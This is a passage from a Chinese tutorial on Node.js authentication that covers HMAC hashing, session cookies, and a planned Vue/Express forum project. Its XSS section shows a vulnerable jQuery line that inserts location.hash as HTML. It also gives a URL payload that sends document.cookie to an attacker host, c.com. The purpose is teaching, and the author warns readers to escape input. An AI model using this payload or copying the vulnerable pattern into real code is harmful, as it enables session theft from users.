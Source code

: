 ```js
}
```
- HMAC全名是 keyed-Hash Message Authentication Code，中文直译就是密钥相关的哈希运算消息认证码，HMAC运算利用哈希算法，以一个密钥和一个消息为输入，生成一个加密串作为输出。HMAC可以有效防止一些类似md5的彩虹表等攻击，比如一些常见的密码直接MD5存入数据库的，可能被反向破解。
crypto.createHmac(algorithm, key)
这个方法返回和createHash一样，返回一个HMAC的实例，有update和digest方法。

#### cookie被盗用，如XSS漏洞

如果cookie被盗用，攻击者就能拿到session_id，就大势已去了。cookie被盗用有许多场景。xss比较典型。

关于xss的话题，比较大，涉及web前端安全领域，小小的例子:

原网站a.com代码里有这样一句:

```js
$('#box').html(location.hash.replace('#',''));
```
可见这句会将url的hash值作为box容器的html内容，攻击者可以将js脚本加在后面:
```js
a.com/path#<script>location.href = 'http://c.com/?'+document.cookie</script>;
```
这样后面的脚本就会执行了，当用户访问攻击者给的这个url时，用户会带着在a.com的cookie去访问c.com，这样攻击者就获得了用户在a.com的cookie了。

所以当我们直接在html插入html代码时，一定要注意将一些特殊字符进行转义。对于xss的防范措施，详情可以通过其他资料进行了解。

### 实例项目分析

最近写的一个基于vue+express+mongodb的论坛单页面应用。

#### 构思:

1. vue首页加载App.vue为根路由，其下有四个子路由:'/Home','/Log','/Post','/Reg';分别对应首页，登录，发表，注册。

2. vue首页通过node渲染，传递req.session.user对象表示用户身份，挂载在window对象，vue根据user是否存在来渲染首页，将所有文章挂载在window.posts，vue渲染。

3. 其余所有页面在vue路由间跳转，通过node提供的api异步发起请求。

4. session,user,posts都存在mongodb当中。


### 结语:

身份验证在应用当中非常普遍，session相对于纯cookie形式来说比较安全，但是也存在一些不足，node去管理session消耗的时间资源，以及cookie被盗用的风险都使得session不够完美。

下一篇会介绍另外一种目前比较常用的验证方式:Token验证。

前后端分离下的Token验证方式


